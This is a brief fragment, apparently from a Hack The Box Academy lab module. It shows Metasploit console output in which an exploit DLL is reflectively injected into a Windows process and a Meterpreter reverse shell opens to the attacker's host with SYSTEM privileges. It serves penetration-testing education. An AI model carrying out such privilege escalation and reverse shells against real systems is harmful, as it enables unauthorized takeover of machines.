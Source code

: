 ```shell-session
[+] Process 3552 launched.
[*] Reflectively injecting the exploit DLL into 3552...
[*] Injecting exploit into 3552 ...
[*] Exploit injected. Injecting payload into 3552...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (176195 bytes) to 10.10.10.5
[*] Meterpreter session 4 opened (10.10.14.5:1338 -> 10.10.10.5:49162) at 2020-08-28 17:15:56 +0000


meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
```

 [Previous](https://academy.hackthebox.com/module/39/section/417)

---

## References

https://academy.hackthebox.com/module/39/section/418